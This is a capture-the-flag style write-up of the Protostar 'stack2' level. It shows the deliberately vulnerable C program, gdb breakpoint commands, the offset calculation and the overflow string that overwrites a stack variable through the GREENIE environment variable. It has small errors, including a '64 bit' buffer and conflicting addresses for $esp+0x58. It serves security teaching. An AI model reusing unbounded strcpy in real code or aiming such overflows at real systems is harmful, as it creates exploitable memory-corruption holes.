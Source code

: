 
  
## Protostar exercises - [stack2](https://exploit-exercises.lains.space/protostar/stack2/)

#### About
Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

#### Procedure:

Similar to the previous one, the value of 'modified' variable needs to be changed to a specific value. Again, there is a `strcpy()` being used, but now its copying an environment variable GREENIE. 

We need to create a GREENIE environment variable and overwrite 'modified' variable with it.

###### Vulnerability:

`strcpy` is used to copy a string. if the destination string of a `strcpy()` is not large enough, then buffer overflow happens. We can use this to overflow the 64 bit buffer and write into the memory address where 'modified' is stored.

###### Disassembly:

![disassembly](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack2/disassemble.PNG)

We can see that 'modified' is assigned an address $esp+0x58. Lets setup breakpoints before and after `strcpy()` to see which registers are changing

Lets create GREENIE variable. `export GREENIE=AAAAAAAA`  and run the program.

```
break *0x080484df
break *0x080484e4
define hook-stop
>info registers
>x/24wx $esp
>x/2i $eip
>end
```
![firstrun](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack2/firstrun.PNG)

We can see that registers 0xbffff748 and 0xbffff74c are written with 0x41's.
Also 'modified' is stored at 0xbffff788 ($esp+0x58) and has value of 0x00000000

To overwrite it, we need to fill the addresses from 0xbffff748 to 0xbffff788. That is 40+4 words or 68 bytes.

Lets change the GREENIE value `export GREENIE=AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIII`

![secondrun](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack2/second.PNG)

Now, we can see that $esp+0x58 (0xbffff748) is changed to 0x49494949. Lets change it to the desired value 0x0d0a0d0a, which is '\r\n\r\n'

Since the machine formats little endian, the required string is AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHH\n\r\n\r

![done](https://github.com/noobfromPitt/Protostar-writeups/blob/master/stack2/done.PNG)

Now, the varialbe is changed to the desired value and program executes without error.
